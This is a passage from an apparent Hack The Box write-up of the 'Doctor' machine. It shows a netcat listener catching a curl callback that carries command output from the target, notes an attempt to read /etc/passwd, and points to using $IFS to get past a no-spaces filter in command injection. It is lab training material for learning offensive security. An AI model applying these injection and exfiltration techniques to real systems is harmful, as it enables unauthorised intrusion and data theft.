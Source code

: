 ```text
┌──(zweilos㉿kali)-[~/htb/doctor]
└─$ nc -lvnp 8081                                                                                130 ⨯
listening on [any] 8081 ...
connect to [10.10.15.77] from (UNKNOWN) [10.10.10.209] 39242
GET /uid=1001(web) HTTP/1.1
Host: 10.10.15.77:8081
User-Agent: curl/7.68.0
Accept: */*
```

Putting in a command at the end of my URL results in a request with the `id` context information the service is running under as the user `web`. 

I tried to do some of my normal enumeration such as `cat /etc/passwd`, but it seemed as if I couldn't use any commands with spaces.  Any commands I sent with spaces did not connect back to my machine.

* [https://www.betterhacker.com/2016/10/command-injection-without-spaces.html](https://www.betterhacker.com/2016/10/command-injection-without-spaces.html)

Didn't work

* [https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces)

in bash $IFS is a space by default

![](../../.gitbook/assets/4-burp.png)
